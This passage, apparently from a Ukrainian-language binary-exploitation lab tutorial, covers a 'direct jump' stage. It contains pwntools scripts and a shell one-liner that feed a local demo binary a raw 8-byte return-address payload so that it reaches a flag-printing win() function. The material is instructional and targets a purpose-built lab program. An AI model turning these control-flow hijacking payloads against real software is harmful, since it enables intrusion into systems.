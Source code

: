 ```python
    print(output)
except:
    log.warning("Можливо зациклення або краш")
```

Результат: Програма **зациклиться** (main викликає себе знову і знову) або крашне.

### Експеримент 3: Відправте менше 8 байт

```python
#!/usr/bin/env python3
from pwn import *

io = process('../build/stage04_demo_no_offset')

# Відправляємо тільки 4 байти
io.send(b'AAAA')

try:
    output = io.recvall(timeout=1)
    print(f"Вивід: {output}")
except:
    print("Нічого не вийшло")
```

Результат: Програма **завершується** без виклику функції:
```c
if(n != 8) return 0;  // n = 4, тому виходимо
```

### Експеримент 4: Ручна перевірка через hexdump

```bash
# Створіть payload вручну
python3 -c "import sys; sys.stdout.buffer.write(b'\x36\x11\x40\x00\x00\x00\x00\x00')" > payload.bin

# Подивіться в hex
xxd payload.bin

# Запустіть
cat payload.bin | ../build/stage04_demo_no_offset
```

## 💡 Важливі концепції

### 1. Чому `__attribute__((noreturn))`?

```c
__attribute__((noreturn)) void win(void){
    puts("FLAG{STAGE4_DIRECT_JUMP}");
    fflush(stdout);
    _exit(0);  // Замість return
}
```
